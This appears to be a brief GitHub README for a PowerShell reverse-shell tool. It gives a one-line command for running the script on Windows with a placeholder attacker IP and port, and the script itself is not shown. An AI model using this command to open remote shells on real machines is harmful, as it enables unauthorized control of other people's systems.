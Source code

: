 # Shitty-ahh-reverse-shell
Just a super simple reverse shell.


When running on windows run, just put this command: powershell.exe -File "C:\route\of\thefile\script.ps1" -ip "YOUR IP" -port your port

Or if you just wanna use the repo just use it.
